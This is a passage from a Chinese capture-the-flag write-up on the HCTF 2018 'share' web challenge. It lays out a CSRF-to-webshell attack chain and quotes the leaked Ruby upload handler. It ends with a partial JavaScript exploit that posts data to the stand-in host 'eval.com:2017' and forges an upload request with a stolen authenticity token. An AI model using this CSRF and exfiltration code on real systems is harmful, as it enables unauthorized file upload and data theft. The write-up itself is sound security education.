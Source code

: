 通过后台源码可以发现管理员页面。

> 管理员：
>
> 上传应用页：http://share.2018.hctf.io/home/upload
>
> 下发应用页：http://share.2018.hctf.io/home/addtest

至此，可以猜测完整利用链为如下：

> CSRF上传shell --> CSRF将文件下发到用户端 --> 用户端获得shell链接 --> GET Shell

一开始，按正常逻辑，写出upload的exp， 经本地测试完全可用。然而打过去之后，发现一直报错500。尝试下发的时候，也是500。

真心难受，最后实在受不了问出题人，他说他的payload没问题，可以用的。

最后，在自己和题目的磨磨唧唧中，队友发来了robots.txt里有代码。然后…心态有点炸。就顾xss了，竟然忘了渗透的基本要素，逮到网站先扫扫。

拿到upload的源码如下。

```ruby
# post /file/upload
  def upload
    if(params[:file][:myfile] != nil && params[:file][:myfile] != "")
      file = params[:file][:myfile]
      name = Base64.decode64(file.original_filename)
      ext = name.split('.')[-1]
      if ext == name || ext ==nil
        ext=""
      end
      share = Tempfile.new(name.split('.'+ext)[0],Rails.root.to_s+"/public/upload")
      share.write(Base64.decode64(file.read))
      share.close
      File.rename(share.path,share.path+"."+ext)
      tmp = Sharefile.new
      tmp.public = 0
      tmp.path = share.path
      tmp.name = name
      tmp.tempname= share.path.split('/')[-1]+"."+ext
      tmp.context = params[:file][:context]
      tmp.save
    end
    redirect_to root_path
  end
```

可以发现此处上传的文件名和文件内容，都会经过base64解码，所以此时需要修改一下。

最终exp如下：

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//eval.com:2017", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e);
}
function submitRequest(authenticity_token)
{
    authenticity_token = authenticity_token.replace(/\+/g, "%2b");
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/file/upload", true);
    xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xhr.setRequestHeader("Accept-Language", "de-de,de;q=0.8,en-us;q=0.5,en;q=0.3");
```